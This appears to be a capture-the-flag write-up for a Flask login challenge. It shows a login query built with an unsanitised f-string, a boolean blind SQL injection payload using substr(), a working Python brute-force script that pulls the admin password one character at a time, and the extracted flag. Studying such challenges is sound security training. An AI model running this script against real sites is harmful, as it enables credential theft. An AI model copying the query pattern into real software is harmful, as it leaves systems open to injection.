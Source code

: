 # SQL Injection 5 — Writeup

## 🧠 Challenge Summary

We are presented with a Flask app that allows login via POST request. It stores an `admin` user in an SQLite database with the **flag as their password**.

The login query is:

```python
query = f"SELECT rowid, * FROM users WHERE username = '{username}' AND password = '{password}'"
```
This is a classic case of SQL Injection due to unsanitized input being directly used in the query string.
---

## Exploit
The SQL statement can be injected through the password field.
We'll perform a boolean-based blind SQLi using the substr() function to extract the flag character-by-character.

The injection payload looks like this:
```
' OR substr((SELECT password FROM users WHERE username='admin'),{i},1)='{c}' --
```
This returns True when the {i}-th character of the flag is {c}.

A successful login results in an HTTP 302 redirect, which we use as a success signal.

### Exploit Script
```
import requests
import string

url = "http://challenge.localhost/"
charset = string.printable  # or use more targeted sets

flag = ""
for i in range(1, 100):  # assume max flag length
    for c in charset:
        payload = f"' OR substr((SELECT password FROM users WHERE username='admin'),{i},1)='{c}' -- "
        r = requests.post(
            url,
            data={"username": "admin", "password": payload},
            allow_redirects=False
        )
        if r.status_code == 302:
            flag += c
            print(f"[+] Found char at position {i}: {c} → {flag}")
            break
    else:
        print("[!] No match found. End of flag?")
        break

print("\n[✔] Full flag:", flag)
```
---

## Extracted Flag
```bash
pwn.college{sF5mGoRwC83HASVmK1umN_te4al.QXzkzMzwSM0IzMyEzW}
```

---
